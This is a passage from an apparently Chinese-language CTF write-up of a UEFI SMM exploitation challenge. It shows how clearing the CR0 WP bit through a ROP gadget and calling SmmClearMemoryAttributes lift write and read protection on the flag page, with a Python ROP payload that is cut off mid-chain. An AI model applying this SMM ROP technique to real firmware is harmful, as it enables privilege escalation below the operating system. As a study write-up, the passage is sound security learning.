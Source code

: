 可以看到断点成功断下并且可以跳转到 `0xDEADBEEF` 处，证明偏移量计算无误：
![[static/UEFI-image5.png]]
### Defeat WP and RP

可以在 gdb 中再探索一下当前拥有的权限：

```bash
pwndbg> i r cr0
cr0            0x80010033          [ PG WP NE ET MP PE ]
```

> [!note] 
> 在当前的 CR0 设置中，开启的保护包括：
> - **分页机制 (PG)**，允许虚拟内存管理。
> - **写保护 (WP)**，保护内存页面免于非法写入，增强安全性。
> - **保护模式 (PE)**，提供内存段保护和权限分级。
>
> 在 x86 架构中，CR0 寄存器的 `WP` 位直接控制写保护（WriteProtect），而读保护（ReadProtect）通常不是由 CR0 直接控制。
>
> 读取访问的保护通常是通过页表中的权限位来控制的，这些位定义哪些进程可以读取特定的内存页。例如，页表中的某些位可以设置成允许或禁止用户模式的代码读取特定的内存页面。

写保护可以直接把 cr0 的第 16 位设置为 0 来绕过，接下来就可以随意篡改页表项或者代码段了，前者可以完成后续利用而后者可以往代码段写入 shellcode（NX 保护与 EFER 寄存器、页表项有关）：

```python
pop_rax_rdi_ret,
0x80000032,
0,
mov_cr0_rax_ret,
```

读保护也与页表项的标志位有关，单纯的禁用 PE 也无法绕开对 `0x44440000` 的 RP，必须要关闭 paging 才能访问到目标地址，但是我用这个方法没有找到合适的办法输出 flag（可以侧信道，不过非常费时）。
#### Exploitation 1 - SmmClearMemoryAttributes

因此单独对 CR0 寄存器进行篡改还不足以获得 flag，重新观察 `0005-PiSmmCpuDxeSmm-Protect-flag-addresses.patch` 可以注意到出题人在 `/UefiCpuPkg/PiSmmCpuDxeSmm/SmmCpuMemoryManagement.c` 文件中修改页面属性时调用的函数为 `SmmSetMemoryAttributes`，而这个文件会被编译到 PiSmmCpuDxeSmm.efi，其中函数同样可以被 SMM 模式下的 ROP 链调用，不过它通常不被用来清除已有的页面属性，相应的有 SmmClearMemoryAttributes 来完成我们的目标：

```c
EFI_STATUS
SmmClearMemoryAttributes (
  IN  EFI_PHYSICAL_ADDRESS  BaseAddress,
  IN  UINT64                Length,
  IN  UINT64                Attributes
  );
```

通过调试信息可以定位到该函数偏移为 0x7743，因此构造如下 ROP 链即可完成利用（其中可以在源码中找到 `#define EFI_MEMORY_RP  0x0000000000002000ULL`）：

```python
payload = flat(
    {
        0x00: [
            0xBBBBBBBB,  # rbx
            allocated_buf + 0x18 + 0x48 + 0x8,  # after ( (guid + size) + 0x48 + 8)
        ],
        0x48: [
            # disable WP
            pop_rax_rdi_ret,
            0x80000032,
            0,
            mov_cr0_rax_ret,
            # SmmClearMemoryAttributes(0x44440000, 0x1000, EFI_MEMORY_RP);
            pop_rdx_rcx_rbx,
            0x1000,
```